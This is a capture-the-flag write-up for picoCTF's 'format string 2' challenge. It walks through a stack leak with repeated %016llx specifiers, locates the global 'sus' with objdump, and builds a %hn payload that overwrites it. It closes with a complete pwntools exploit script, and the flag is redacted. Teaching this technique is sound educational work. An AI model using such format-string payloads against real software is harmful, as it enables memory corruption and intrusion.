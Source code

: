 # format string 2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #formatstring #infoleak #writewhatwhere`

## Description ##

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

## Approach ##

Inspecting the provided `vuln.c` source file we see a global variable `sus` initialised with a value of `0x21737573`. After prompting for input from standard input, this buffer is printed directly and not as part of a format string, therefore vulnerable to format string attack (as the name of the challenge suggests) :

    printf(buf);

The flag file is then read and displayed if the aforementioned global variable `sus` is equal to `0x67616c66`, our win condition. Note that `sus` is modified outside of it's initialisation, hence we must use the format string attack to rewrite the value in this variable.

A quick check of the provided challenge binary `vuln` we can see this is a 64-bit executable:

    $ file vuln
    vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dfe923d97df1df729249ff21202d10ad15d45f4c, for GNU/Linux 3.2.0, not stripped

Using a typical stack dumping info leak mechanism to locate `buf` on the stack, using a token that can be readily located, in this case the string "BBBBBBBB", which we'll find in hexadecimal form as `0x4242424242424242`. The first instance (string representation) in the output is just our token being printed by `printf()` and not the contents of `buf`.

    $ echo $(python3 -c 'print("B"*8 + ".%016llx" * 50)') | ./vuln 
    You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
    Here's your input: BBBBBBBB.0000000000402075.0000000000000000.00007feea9e16a00.0000000000000000.00000000009546b0.00000001a9f2aaf0.00007feea9eee4d0.0000000000000000.00007fee00000000.00007fee00000000.00007fee00000000.00000000ffffffff.00007ffda5cf5360.4242424242424242.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e
    sus = 0x21737573
    You can do better!

Our token can be found in the 14'th word in the dump, which correlates with the 14'th dummy format string argument. To verify we can print just our token argument:

    $ echo $(python3 -c 'print("B"*8 + ".%14$016llx")') | ./vuln 
    You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
    Here's your input: BBBBBBBB.4242424242424242
    sus = 0x21737573
    You can do better!

To be able to rewrite the value of `sus` we must first locate its address:

    $ objdump -t vuln | grep sus
    0000000000404060 g     O .data  0000000000000004              sus

We'll break up the writing of `sus` into two separate short integers (16-bit), therefore the two values that need to be written and their corresponding addresses are (keeping in mind endianness)

    0x67616c66 @ 0x404060
  = ----------------------------
    0x6761 (or 26465) @ 0x404062
    0x6c66 (or 27750) @ 0x404060

To write `sus` we'll use the well known format string attack using the `%n` format parameter, in particular `%hn` variant, where:

    %n  Writes the number of characters written so far into a pointer reference (int *)
    %hn Writes the number of characters written so far into a pointer reference (short int *)

So using this mechanism, the premise is we must generate a string containing the number of characters corresponding to the short value we want to write then use `%hn` to write it at our target address.

Therefore our final input attack payload used was:

    b'%26465x%18$hn...' + b'%1282x%19$hn....' + b'\x62\x40\x40\x00\x00\x00\x00\x00' + b'\x60\x40\x40\x00\x00\x00\x00\x00'

Where;
- `"%26465x"` sets up the first write of `26465 (0x6761)` using the padding feature to output a single integer in hexadecimal format to standard output, but padded to `26465` characters.
- `"%18$hn..."` write the first short integer, the number of characters output thus far in this `printf()` statement to the memory location pointed to by the 18'th argument provided to `printf()`. Given no arguments were provided to `printf()` this ends up referencing a word on the stack, which we constructed to be the location of our first target memory address we will put in `buf`. We know previously that `buf` starts at the 14'th word, but our constructed format string (prior to the appended addresses) occupies the first 32-characters (4 64-bit words), meaning out first address is `14 + 4 = 18`'th argument. Note that the `...` were added simply to assist with alignment of the format string and addresses within the buffer.
- `"%1282x"` sets up our second write of `27750 (0x6c66)` remembering we had already outputted `26,465` characters plus our alignment padding `...` of another 3 characters, therefore we need to write `27,750 - (26,465 + 3) = 1,282` and use the same mechanism as the first write.
- `"%19$hn...."` writes the second short integer using the same mechanism, with the address of the second write the 19'th argument.
- `"\x62\x40\x40\x00\x00\x00\x00\x00"` is the target address of our first short integer write in little endian byte encoded form, used as the 18'th argument to the `printf()` from the stack.
- `"\x60\x40\x40\x00\x00\x00\x00\x00"` the target address of the second short integer write.

A couple of points to note;
- we use the short integer writes instead of one single integer write to minimise the amount of characters that are required to be output on standard output.
- we must make sure we write the small value of the two first as we build up the attack string and continue to add output characters, hence the writes must be ordered accordingly.
- both addresses are appended to the format string as they contain bytes of values zero, that would be treated as a string null termination character by `printf()` and would not complete the format string otherwise.

## Solution ##

The final solution used was implemented via the following pwntools script:

    #!/usr/bin/env python3

    from pwn import *
    import re

    target_elf = ELF("./vuln")

    # command line support for local, remote and gdb modes
    if len(sys.argv) > 1:
      if "remote" in sys.argv:
        if len(sys.argv) > 3:
          target_proc = remote(sys.argv[2], sys.argv[3])
        else:
          print('usage: ./pwn-game.py remote <server> <port>')
          exit(1)
      elif "gdb" in sys.argv:
        target_proc = target_elf.process()
        gdb.attach(target_proc)
    else:
      target_proc = target_elf.process()

    # recv and throw away until we receive our input prompt
    target_proc.recvuntil(b'say?')
    payload = b'%26465x%18$hn...' + b'%1282x%19$hn....' + b'\x62\x40\x40\x00\x00\x00\x00\x00' + b'\x60\x40\x40\x00\x00\x00\x00\x00'
    # payload construction debugging
    print(payload)
    with open("payload.txt", "wb") as binary_file:
      binary_file.write(payload)
    # send payload to target and we're done
    target_proc.sendline(payload)
    target_proc.interactive()

Which yielded a lot of output (as expected) the tail of which containing our flag:

    I have NO clue how you did that, you must be a wizard. Here you go...
    picoCTF{...........redacted.............}
    [*] Got EOF while reading in interactive

Where the actual flag value has been redacted for the purposes of this write up.
